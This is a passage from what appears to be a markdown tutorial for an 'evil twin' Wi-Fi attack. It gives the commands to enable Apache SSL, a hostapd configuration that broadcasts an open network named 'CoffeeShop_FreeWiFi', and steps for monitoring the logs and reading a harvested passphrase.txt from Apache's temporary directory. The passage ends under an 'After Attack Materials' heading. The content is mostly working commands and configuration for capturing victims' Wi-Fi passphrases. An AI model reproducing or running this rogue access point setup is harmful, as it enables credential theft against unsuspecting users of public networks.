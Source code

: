 After we will need to enable to the apache2 module

`sudo a2enmod ssl`

### Step 7: Enable Apache when done working:

```bash
sudo systemctl start apache2
```

---

Create a `hostapd.conf` file:

```ini
interface=wlan0
driver=nl80211
ssid=CoffeeShop_FreeWiFi
hw_mode=g
channel=6
macaddr_acl=0
auth_algs=1
ignore_broadcast_ssid=0
```

Run it:

```bash
hostapd -B hostapd.conf
```

----

### Step 8: Verify that its worked

`sudo tail -f /var/log/syslog | grep -E '(dnsmasq|hostapd)'`

Monitor incoming Apache logs.

`sudo tail -f /var/log/apache2/access.log`

We can now look in the /tmp directory, find our passphrase.txt, and display its content.

```
sudo find /tmp/ -iname passphrase.txt`
sudo cat /tmp/systemd-private-0a505bfcaf7d4db699274121e3ce3849-apache2.service-lIP3ds/tmp/passphrase.txt
```

---

## After Attack Materials

---

### Using WPA-Supplicant for connections

#### 📄 Step 1: Example `wpa_supplicant.conf` file
